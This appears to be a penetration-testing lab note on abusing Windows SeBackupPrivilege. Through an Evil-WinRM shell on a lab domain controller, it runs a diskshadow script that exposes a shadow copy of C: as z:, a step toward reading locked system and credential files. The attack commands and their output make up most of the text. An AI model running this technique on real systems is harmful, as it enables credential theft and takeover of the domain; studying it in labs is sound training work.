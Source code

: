 # Privileges
## SeBackupPrivilege
```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
...
SeBackupPrivilege             Back up files and directories  Enabled
...
```
### Disk Shadow method
```
set context persistent nowriters 
add volume c: alias pwn 
create 
expose %pwn% z: 
```
```powershell
*Evil-WinRM* PS C:\temp> upload pwn.txt
```
```powershell
*Evil-WinRM* PS C:\temp> type pwn.txt
set context persistent nowriters 
add volume c: alias pwn 
create 
expose %pwn% z: 
```
```powershell
*Evil-WinRM* PS C:\temp> diskshadow /s pwn.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  8/9/2024 10:57:34 PM

-> set context persistent nowriters
-> add volume c: alias pwn
-> create
Alias pwn for shadow ID {041d93f3-797d-4f91-a270-5c1fb66092e6} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {7df9215a-2efb-4a28-befe-cbaf15deba8c} set as environment variable.

Querying all shadow copies with the shadow copy set ID {7df9215a-2efb-4a28-befe-cbaf15deba8c}

        * Shadow copy ID = {041d93f3-797d-4f91-a270-5c1fb66092e6}               %pwn%
                - Shadow copy set: {7df9215a-2efb-4a28-befe-cbaf15deba8c}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]
                - Creation time: 8/9/2024 10:57:36 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: BabyDC.baby.vl
                - Service machine: BabyDC.baby.vl
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %pwn% z:
-> %pwn% = {041d93f3-797d-4f91-a270-5c1fb66092e6}
The shadow copy was successfully exposed as z:\.
```